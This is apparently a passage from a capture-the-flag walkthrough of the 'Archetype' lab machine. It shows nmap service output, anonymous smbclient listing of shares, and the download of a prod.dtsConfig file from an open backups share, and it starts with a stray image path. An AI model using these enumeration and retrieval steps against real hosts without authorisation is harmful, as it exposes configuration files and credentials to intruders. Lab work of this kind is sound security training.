 ```shell-session
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-03T11:07:33-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-03T18:07:36
|_  start_date: N/A
```

We can see that it is a windows machine with shared files via `smb`, without providing any user nor login. Let us see what we can list:

```shell-session
$smbclient -N -L \\\\10.10.10.27

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

We can see that `backups` is accessible to everyone . When trying to connect without password:

```shell-session
$smbclient \\\\10.10.10.27\\backups
Enter WORKGROUP\alacrau's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

		10328063 blocks of size 4096. 8208731 blocks available
smb: \> 
smb: \> pwd
Current directory is \\10.10.10.27\backups\
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)
```
